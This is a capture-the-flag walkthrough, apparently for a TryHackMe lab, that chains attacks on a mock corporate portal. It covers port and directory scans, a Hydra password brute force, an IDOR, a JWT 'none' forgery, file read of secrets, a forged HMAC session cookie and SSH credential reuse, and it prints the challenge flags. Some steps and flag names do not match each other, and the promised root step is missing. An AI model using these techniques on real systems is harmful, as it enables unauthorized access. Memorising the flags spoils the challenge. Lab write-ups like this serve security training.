# Domino

## Room Description

The **NexusCorp Employee Portal** appears to be a typical internal application with authentication controls and role-based access in place. However, multiple small weaknesses, ranging from misconfigurations to logic flaws, can be combined to fully compromise the system.

As an attacker, the objective is to observe how the application behaves, interact with its endpoints, and identify weak trust boundaries. By analysing requests, modifying parameters, and chaining vulnerabilities together, access can be progressively escalated to move deeper into the system.

A single misstep can trigger a chain reaction—exploit each weakness in sequence and watch the system fall, one domino at a time.

---

## Objectives

Throughout this assessment, the following objectives must be achieved:

* Enumerate the target application and identify its exposed functionality.
* Analyse the application's behaviour and discover weaknesses in its trust boundaries.
* Chain multiple vulnerabilities together to progressively escalate privileges.
* Retrieve the flag from the **admin user's profile notes**.
* Gain **administrator access** and retrieve the flag displayed on the **Admin Panel**.
* Achieve **Remote Code Execution (RCE)** on the target server and obtain the flag stored in `/opt/flag3.txt`.
* Pivot to the **devops** user and retrieve the flag from the user's home directory.
* Escalate privileges to **root** and capture the final flag.

## Reconnaissance

### Port Scan

#### Command

```bash
nmap -sC -sV -p- <TARGET_IP>
```

#### Findings

| Port | Service | Version       |
| ---- | ------- | ------------- |
| 22   | SSH     | OpenSSH 9.6p1 |
| 80   | HTTP    | Apache 2.4.58 |

The scan identified **SSH** and an **Apache web server** hosting the **NexusCorp Portal**. With only these two services exposed, the web application became the primary focus for further enumeration.

### Directory Enumeration

#### Command

```bash
gobuster dir -u http://<TARGET_IP> -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -x html,js,php,txt
```

#### Findings

| Endpoint         | Status |
| ---------------- | ------ |
| `/admin/`        | 301    |
| `/support/`      | 301    |
| `/static/`       | 301    |
| `/api/`          | 301    |
| `/backup/`       | 301    |
| `/auth.php`      | 200    |
| `/dashboard.php` | 302    |
| `/team.php`      | 200    |
| `/config.php`    | 200    |
| `/index.php`     | 200    |
| `/reset.php`     | 200    |
| `/logout.php`    | 302    |
| `/javascript/`   | 301    |

The enumeration revealed several interesting endpoints, particularly **`/admin`**, **`/api`**, **`/backup`**, and **`/support`**, which became the primary focus for further investigation.

### User Enumeration

The `team.php` page exposed the names and email addresses of NexusCorp employees, allowing valid usernames to be identified for authentication attempts.



### Password Brute Force

Using the enumerated usernames, a password brute-force attack was performed against the login portal.

**Hydra Command**

```bash
hydra -l robert.wilson \
-P /usr/share/wordlists/rockyou.txt \
<TARGET_IP> http-post-form \
"/index.php:username=^USER^&password=^PASS^:Invalid Credentials"
```

The attack successfully recovered the following credentials:

| Username        | Password   |
| --------------- | ---------- |
| `robert.wilson` | `password` |

### Initial Access

The recovered credentials provided access to the NexusCorp Employee Portal as **robert.wilson**. The authenticated dashboard exposed several internal features, including a **My Profile API** endpoint.



### Insecure Direct Object Reference (IDOR)

The profile endpoint retrieved user information using a numeric `id` parameter:

```text
/api/users/profile.php?id=<id>
```

By modifying the `id` value from the authenticated user's profile to `1`, it was possible to access the administrator's profile without any authorization checks, confirming an **Insecure Direct Object Reference (IDOR)** vulnerability.

```text
/api/users/profile.php?id=1
```

The response disclosed the administrator's profile along with the first challenge flag stored in the **notes** field.



> **Flag 1:** `THM{1d0r_h0r1z0nt4l_4cc3ss_fl4g1}`

### JWT Authentication Bypass

The application relied on JWTs for authorization but failed to validate the token signature. By crafting a JWT with administrator privileges and setting the algorithm to `none`, it was possible to forge a valid administrator token.

**JWT Payload**

```json
{
  "username": "admin",
  "role": "admin",
  "iat": 1516239022
}
```



The forged JWT was supplied in the `Authorization` header when requesting the administrator panel.

```bash
curl -H "Authorization: Bearer <FORGED_JWT>" http://<TARGET_IP>/admin/
```

The application accepted the forged token and granted unauthorized access to the administrator panel, disclosing the second challenge flag.



> **Flag 2:** `THM{bl1nd_x55_s3ss10n_h1j4ck_fl4g2}`

### Arbitrary File Read

After obtaining administrator privileges through the forged JWT, the **File Viewer** functionality became accessible.

The endpoint accepted a `name` parameter and only permitted files located under `/var/www/html`.

```text
/api/files.php?name=/var/www/html/<file>
```

Using the endpoint to retrieve `config.php` exposed sensitive application secrets, including:

* Database credentials
* `JWT_SECRET`
* `APP_SECRET`

These values would later prove essential for understanding and reproducing the application's authentication mechanism.



---

### Analysing the Authentication Logic

With arbitrary file read confirmed, the next step was to inspect the application's authentication implementation.

Retrieving `auth.php` revealed how sessions were validated. The application expected a cookie containing a Base64-encoded JSON object followed by an HMAC-SHA256 signature.

```text
base64(json).hmac_sha256(base64(json), APP_SECRET)
```

The source code also showed that the decoded JSON only required a valid `user_id`, after which the user's role was retrieved directly from the database.



---

### Identifying the Session Cookie

Earlier enumeration of `static/app.js` revealed the session cookie used by the application:

```javascript
document.cookie.split(';').find(c => c.trim().startsWith('nexus_session='))
```

This confirmed that authenticated sessions were stored using the **`nexus_session`** cookie.



---

### Crafting a Valid Session

Since `APP_SECRET` had been recovered from `config.php`, it was possible to recreate a valid session cookie.

The JSON object was constructed using the administrator's user ID:

```json
{
  "user_id": 1
}
```

The JSON was first Base64-encoded.



An HMAC-SHA256 signature was then generated over the Base64 value using the recovered `APP_SECRET`.

```
Key: nexus_app_k3y_2024
Algorithm: HMAC-SHA256
```



The final session cookie followed the application's expected format:

```text
<base64(json)>.<hmac>
```

Result:

```text
eyJ1c2VyX2lkIjoxfQ==.cf265714979977ad780af620acf7aaf96be79564b12352e9816103f28e26f518
```

---

### Administrator Session Hijack

After replacing the existing `nexus_session` cookie with the forged administrator session, the application authenticated the request as **Laura Hayes**.

Access to the administrator panel was successfully obtained, completing the privilege escalation.



### Credential Reuse

The `config.php` file disclosed the application's database credentials. Since earlier enumeration identified **`devops`** as the underlying system user, the recovered password was tested against the SSH service.

**Recovered Credentials**

| Username | Password      |
| -------- | ------------- |
| `devops` | `D3v0ps!2024` |

The credentials were successfully reused to authenticate over SSH, providing shell access to the target system.

```bash
ssh devops@<TARGET_IP>
```

---

### Remote Code Execution & Lateral Movement

After obtaining shell access as the `devops` user, the third challenge flag was retrieved from `/opt/flag3.txt`.

```bash
cat /opt/flag3.txt
```

The home directory of the `devops` user was then inspected, revealing the fourth challenge flag.

```bash
cat ~/user.txt
```



> **Flag 3:** `THM{rf1_2_rc3_f00th0ld_fl4g3}`

> **Flag 4:** `THM{s5h_cr3d_r3u53_l4t3r4l_fl4g4}`
